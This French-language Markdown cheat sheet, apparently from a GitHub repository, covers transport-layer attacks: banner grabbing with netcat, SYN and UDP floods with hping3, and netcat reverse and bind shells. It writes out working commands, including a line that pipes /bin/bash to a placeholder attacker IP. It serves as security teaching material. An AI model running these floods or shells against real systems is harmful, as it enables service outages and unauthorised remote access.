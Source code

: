 # Couche 4 – Transport

## 1. Types d’attaques sur la couche Transport

- **Port knocking & Banner Grabbing**  
  Repérer la présence et le type de service sur un port en lisant la “bannière” de bienvenue.

- **Attaque par déni de service (DoS, SYN Flood, UDP Flood)**  
  Saturer un port ou un service pour provoquer son indisponibilité.

- **Établissement de connexions non autorisées (reverse shell, bind shell)**  
  Ouvrir ou forcer une connexion à distance pour obtenir un accès non autorisé.

---

## 2. Outils et méthodes

### ⚡ Attaque : Banner Grabbing

#### Outil : **Netcat (nc)**
- **Description** : Outil universel pour lire ou écrire sur un port TCP/UDP.
- **Pourquoi l’utiliser ?** :  
  - Facile à utiliser pour tester les réponses sur n’importe quel port
- **Installation** :  
  - `sudo apt install netcat`
- **Commandes** :  
  - `nc [IP cible] 80`  
    (tapez ensuite `HEAD / HTTP/1.0` puis Entrée pour obtenir une bannière HTTP)
  - `nc [IP cible] 21`  
    (bannière FTP)

---

### ⚡ Attaque : DoS/SYN Flood

#### Outil : **Hping3**
- **Description** : Générateur de paquets TCP/UDP pour stress-test.
- **Installation** :  
  - `sudo apt install hping3`
- **Commandes** :  
  - `sudo hping3 -S --flood -p 80 [IP cible]`
  - `sudo hping3 --udp --flood -p 53 [IP cible]`
- **Attention** : DoS est illégal sans autorisation.

---

### ⚡ Attaque : Reverse shell / Bind shell

#### Outil : **Netcat**
- **Pourquoi l’utiliser** :  
  - Facile à déployer pour obtenir un shell à distance
- **Commandes** :  
  - **Reverse shell** (de la victime vers l’attaquant) :  
    - Attaquant : `nc -lvp 4444`
    - Victime : `nc [IP de l’attaquant] 4444 -e /bin/bash`
  - **Bind shell** (de l’attaquant vers la victime) :  
    - Victime : `nc -lvp 4444 -e /bin/bash`
    - Attaquant : `nc [IP de la victime] 4444`

---

## 3. Contribution

> Ajoutez vos attaques ou outils en gardant le schéma : explication, contexte, installation, exemple(s) de commande(s).
